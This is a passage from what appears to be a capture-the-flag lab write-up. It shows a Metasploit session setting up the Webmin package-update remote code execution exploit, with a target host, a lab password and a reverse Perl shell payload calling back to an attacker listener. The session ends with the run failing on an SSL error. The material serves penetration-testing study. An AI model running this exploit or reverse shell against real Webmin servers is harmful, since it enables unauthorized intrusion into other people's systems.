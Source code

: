 ```
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set LPORT 26446
LPORT => 26446
[-] The value specified for PAYLOAD is not valid.
msf5 exploit(linux/http/webmin_packageup_rce) > set RPORT 80
RPORT => 80
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL 0
SSL => 0
```
Now, let's show the options setup and try to run it (we need to catch a mistake done on purpose).
```
msf5 exploit(linux/http/webmin_packageup_rce) > show options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.160     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        0                no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME   Matt             yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT  26446            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910

```

One mistake was caught, we forgot to setup the SSL option; remember we mentioned Webmin uses HTTPS.
```
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL 1
SSL => 1
msf5 exploit(linux/http/webmin_packageup_rce) > run -j
[*] Exploit running as background job 18.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.28:26446 
[-] Exploit failed [unreachable]: OpenSSL::SSL::SSLError SSL_connect returned=1 errno=0 state=error: wrong version number
```
